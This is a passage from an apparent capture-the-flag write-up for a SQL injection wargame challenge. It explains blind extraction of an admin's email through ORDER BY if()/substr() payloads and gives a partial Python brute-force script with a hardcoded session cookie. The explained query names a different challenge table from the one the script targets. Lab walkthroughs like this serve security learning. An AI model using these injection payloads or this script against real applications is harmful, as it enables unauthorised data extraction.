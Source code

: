 Rows where the length of `email` for `id='admin'` is equal to the `[length]` that we provide, will be given the sort value 1. 
All other rows will be given the sort value 2. 
Rows with a lower sort value will appear first within the table.

So, if the `admin` user appears first, we know that the `[length]` was correct.

### Leaking the email

If we provide the following URI parameter:

```
?order=if(id='admin' AND substr(email, 1, 1)='0', 1, 2)
```

The resultant query becomes:

```sql
SELECT id,email,score FROM prob_hell_fire WHERE 1 ORDER BY if(id='admin' AND substr(email, [index], 1)='[character]', 1, 2)
```

Rows where the `id='admin'` and character of the `email` at `[index]` is the same as the `[character]` that we provide, will be given the sort value 1. 
All other rows will be given sort value 2. Rows with a lower sort value will appear first within the table.

So, if the `admin` user appears first, we know that the `[character]` at `[index]` was correct.


### Script

```python title="evil_wizard_script.py"
import requests
import urllib.parse
import string

cookies = {'PHPSESSID': 'fgpbvjdctvq3qasns4lba8a85p'}
url = "https://los.rubiya.kr/chall/evil_wizard_32e3d35835aa4e039348712fb75169ad.php"
password_length = 0

for x in range(0, 100):
  payload = f"if(id='admin' and length(email)={x}, 1, 2)"
  encoded_payload = urllib.parse.quote_plus(payload)
  full_url = f"{url}?order={encoded_payload}"
    
  response = requests.get(full_url, cookies=cookies)
    
  if "<table border=1><tr><th>id</th><th>email</th><th>score</th><tr><td>admin</td>" in response.text:
    password_length = x
    break

print()    
print(f"[!] Payload: ?order={payload}")
print(f"[!] Payload (URL encoded): ?order={encoded_payload}")
print(f"[!] Email length: {password_length}")

password = ""
searchspace = '_@.' +  string.digits + string.ascii_letters

print(searchspace)

for index in range(1, password_length + 1):
  for char in searchspace:
    payload = f"if(id='admin' AND ord(substr(email, {index}, 1))='{ord(char)}', 1, 2)"
    encoded_payload = urllib.parse.quote_plus(payload)
    full_url = f"{url}?order={encoded_payload}"
```
